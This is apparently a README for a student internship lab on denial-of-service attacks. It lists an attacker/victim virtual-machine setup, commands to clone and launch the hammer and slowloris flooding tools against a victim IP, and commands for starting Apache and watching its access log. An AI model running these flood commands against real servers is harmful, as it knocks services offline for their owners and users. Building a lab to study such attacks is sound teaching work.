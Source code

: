 # IIT-JAMMU
IIT JAMMU PROJECT INTERNSHIP FILES
⚙ Requirements
Kali Linux (Attacker)

Kali Linux / Windows 10 (Victim)

Python 3.10+

Apache2 / XAMPP

Wireshark

VirtualBox

🚀 Quick Start
1️⃣ Clone Attack Tool
bash
Copy
Edit
git clone https://github.com/cyweb/hammer.git
cd hammer
python3 hammer.py -s <victim_ip> -p 80 -t 135
2️⃣ Slowloris Attack
bash
Copy
Edit
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
python3 slowloris.py <victim_ip> -s 500
3️⃣ Apache Server (Victim)
Linux:

bash
Copy
Edit
sudo apt install apache2
sudo service apache2 start
Windows (XAMPP): Start Apache from Control Panel.

📊 Monitor Traffic
Linux Victim:

bash:
Copy
Edit
sudo tail -f /var/log/apache2/access.log
Windows Victim:

powershell
Copy
Edit
Get-Content "C:\xampp\apache\logs\access.log" -Wait
